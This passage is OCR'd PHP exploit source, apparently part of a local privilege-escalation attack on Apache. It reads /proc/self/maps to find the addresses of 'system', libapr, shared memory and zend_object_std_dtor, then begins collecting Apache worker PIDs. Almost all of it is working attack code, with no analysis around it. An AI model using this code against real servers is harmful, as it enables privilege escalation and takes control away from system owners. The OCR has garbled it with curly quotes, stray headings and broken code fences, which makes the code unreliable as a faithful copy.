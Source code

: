 		else if($addresses['apache'][1] == $bounds[0])
            $addresses['apache'][1] = $bounds[1];
		else
            $follows_shm = false;
	}
	if(
		preg_match('#(/[^\s]+libphp7[0-9.]+.so[^\s]*)#', $line, $matches) &amp;&amp;
		strpos($line, 'r-xp')
	)
	{
		$offset = find_symbol($matches[1], 'zend_object_std_dtor');
		$line = explode(' ', $line)[0];
		$line = hexdec(explode('-', $line)[0]);
		$addresses['zend_object_std_dtor'] = $line + $offset;
	}
}

$expected = [
	'shm', 'system', 'libaprR', 'libaprX', 'apache', 'zend_object_std_dtor'
];
$missing = array_diff($expected, array_keys($addresses));

if($missing)
{
	o(
		'The following addresses were not determined by parsing ' .
		'/proc/self/maps: ' . implode(', ', $missing)
	);
	exit(0);
}

o('PID: ' . getmypid());
o('Fetching addresses');

foreach($addresses as $k =&gt; $a)
{
	if(!is_array($a))
		$a = [$a];
	o('  ' . $k . ': ' . implode('-0x', array_map(function($z) {
			return '0x' . dechex($z);
	}, $a)));
}
o('');

return $addresses; 
```

}

# Extracts PIDs of apache workers using /proc/*/cmdline and /proc/*/status,

# matching the cmdline and the UID

function get_workers_pids()

{

o(‘Obtaining apache workers PIDs’);

$pids = [];

$cmd = file_get_contents(’/proc/self/cmdline’);

$processes = glob(’/proc/*’);

foreach($processes as $process)
```